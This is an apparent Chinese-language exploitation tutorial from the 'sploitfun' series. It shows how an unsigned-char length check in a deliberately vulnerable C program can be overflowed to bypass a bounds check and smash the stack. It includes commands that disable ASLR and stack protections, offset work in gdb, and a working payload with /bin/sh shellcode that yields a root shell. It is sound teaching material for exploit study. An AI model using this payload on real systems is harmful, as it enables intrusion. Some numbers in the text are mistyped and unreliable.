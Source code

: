 ```yaml
---
layout: post
title: 整数溢出
excerpt: "sploitfun系列教程之1.2整数溢出"
categories: [sploitfun系列教程]
comments: true
---
```


存储大于最大支持值的值称为整数溢出。整数溢出本身不会导致任意代码执行，但整数溢出可能会导致堆栈溢出或堆溢出，这可能导致任意代码执行。在这篇文章中，我将仅谈论整数溢出导致栈溢出，整数溢出导致堆溢出将在后面的单独的帖子中讨论。

数据的种类和范围
```
 _______________________________________________________
|Data Type |  Size   | Unsigned Range | Signed Range    |
|-------------------------------------------------------|
|char      | 1       | 0 to 255       | -128 to 127     |
|-------------------------------------------------------|
|short     | 2       | 0 to 65535     | -32768 to 32767 |
|-------------------------------------------------------|
|int       | 4       | 0 to 4294967296| -2147483648 to  |
|          |         |                |  2147483647     |
|__________|_________|________________|_________________|
```
当我们试图存储一个大于最大支持值的值时，我们的值会被包装 。例如，当我们尝试将2147483648存储到带符号的int数据类型时，它将被包装并存储为-21471483648。这被称为整数溢出，这种溢出可能导致任意代码执行

#### 下界溢出
当我们尝试将-2147483649存储到带符号的int数据类型时，它将被包装并存储为21471483647.这称为下界溢出

漏洞代码如下
```c
//vuln.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void store_passwd_indb(char* passwd) {
}

void validate_uname(char* uname) {
}

void validate_passwd(char* passwd) {
 char passwd_buf[11];
 unsigned char passwd_len = strlen(passwd); /* [1] */ 
 if(passwd_len >= 4 && passwd_len <= 8) { /* [2] */
  printf("Valid Password\n"); /* [3] */ 
  fflush(stdout);
  strcpy(passwd_buf,passwd); /* [4] */
 } else {
  printf("Invalid Password\n"); /* [5] */
  fflush(stdout);
 }
 store_passwd_indb(passwd_buf); /* [6] */
}

int main(int argc, char* argv[]) {
 if(argc!=3) {
  printf("Usage Error:   \n");
  fflush(stdout);
  exit(-1);
 }
 validate_uname(argv[1]);
 validate_passwd(argv[2]);
 return 0;
}
```
编译环境
```shell
echo 0 > /proc/sys/kernel/randomize_va_space
gcc -g -fno-stack-protector -z execstack -o vuln vuln.c -m32
chmod 777 vuln
```

查看validate_passwd汇编代码
```bash
gdb-peda$ disassemble validate_passwd 
Dump of assembler code for function validate_passwd:
   0x08048507 <+0>:	push   ebp
   0x08048508 <+1>:	mov    ebp,esp
   0x0804850a <+3>:	sub    esp,0x28
   0x0804850d <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048510 <+9>:	mov    DWORD PTR [esp],eax
   0x08048513 <+12>:	call   0x80483d0 <strlen@plt>
   0x08048518 <+17>:	mov    BYTE PTR [ebp-0x9],al
   0x0804851b <+20>:	cmp    BYTE PTR [ebp-0x9],0x3
   0x0804851f <+24>:	jbe    0x8048554 <validate_passwd+77>
   0x08048521 <+26>:	cmp    BYTE PTR [ebp-0x9],0x8
   0x08048525 <+30>:	ja     0x8048554 <validate_passwd+77>
   0x08048527 <+32>:	mov    DWORD PTR [esp],0x8048674
   0x0804852e <+39>:	call   0x80483b0 <puts@plt>
   0x08048533 <+44>:	mov    eax,ds:0x804a040
   0x08048538 <+49>:	mov    DWORD PTR [esp],eax
   0x0804853b <+52>:	call   0x8048390 <fflush@plt>
   0x08048540 <+57>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048543 <+60>:	mov    DWORD PTR [esp+0x4],eax
   0x08048547 <+64>:	lea    eax,[ebp-0x14]
   0x0804854a <+67>:	mov    DWORD PTR [esp],eax
   0x0804854d <+70>:	call   0x80483a0 <strcpy@plt>
   0x08048552 <+75>:	jmp    0x804856d <validate_passwd+102>
   0x08048554 <+77>:	mov    DWORD PTR [esp],0x8048683
   0x0804855b <+84>:	call   0x80483b0 <puts@plt>
   0x08048560 <+89>:	mov    eax,ds:0x804a040
   0x08048565 <+94>:	mov    DWORD PTR [esp],eax
   0x08048568 <+97>:	call   0x8048390 <fflush@plt>
   0x0804856d <+102>:	lea    eax,[ebp-0x14]
   0x08048570 <+105>:	mov    DWORD PTR [esp],eax
   0x08048573 <+108>:	call   0x80484fd <store_passwd_indb>
   0x08048578 <+113>:	leave  
   0x08048579 <+114>:	ret    
End of assembler dump.
```
上述漏洞代码的[1]行显示了一个整数溢出错误。strlen（）的返回类型是size_t（unsigned int），它存储在unsigned char数据类型中。因此，任何大于unsigned char的最大支持值的值都会导致整数溢出。因此当密码长度为261时，261将被包裹并存储为“passwd_len”变量中的5！由于这个整数溢出，可以绕过行[2]执行的边界检查，从而导致基于堆栈的缓冲区溢出！而且在这篇文章中看到，基于堆栈的缓冲区溢出导致任意的代码执行。

#### 测试第一步：Return Address能否被覆盖
```bash
gdb vuln
gdb-peda$ r sploitfun `python -c 'print "A"*261'`
```
结果
```
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
```

#### 测试第二步：offset 是多少
offset长度是`0x18`

> 0x18 = 0xb + 0x1 + 0x4 + 0x4 + 0x4

其中
- 0xb是‘passwd_buf’大小
- 0x1是‘passwd_len’大小
- 0x4是栈对齐大小
- 0x4是edi
- 0x4是caller’s EBP

因此，用户输入的`“A” * 24 + “B” * 4 + “C” * 233`，以A覆盖passwd_buf，passwd_len，对齐空间，edi和调用者的ebp，以“BBBB”覆盖返回地址，以"C"覆盖剩余空间.

```shell
gdb vuln
gdb-peda$ r sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
```
结果如下
```
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
这样我们就可以通过控制return address来控制程序

#### 最终exp
```bash
gdb vuln
gdb-peda$ r sploitfun `python -c 'print "A"*24 + "\x24\xd5\xff\xff" +"A"*4+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+ "C"*204'`
Starting program: /root/sploitfun/vuln sploitfun `python -c 'print "A"*24 + "\x24\xd5\xff\xff" +"A"*4+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+ "C"*204'`
```
结果
```
gdb-peda$ r sploitfun `python -c 'print "A"*24 + "\x24\xd5\xff\xff" +"A"*4+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+ "C"*204'`
Starting program: /root/sploitfun/vuln sploitfun `python -c 'print "A"*24 + "\x24\xd5\xff\xff" +"A"*4+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+ "C"*204'`
Valid Password
process 4612 is executing new program: /usr/bin/bash
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
sh-4.2# who
[New process 4674]
process 4674 is executing new program: /usr/bin/who
Missing separate debuginfos, use: debuginfo-install bash-4.2.46-33.el7.x86_64
root     pts/3        Nov  7 15:50 (61.172.240.228)
```
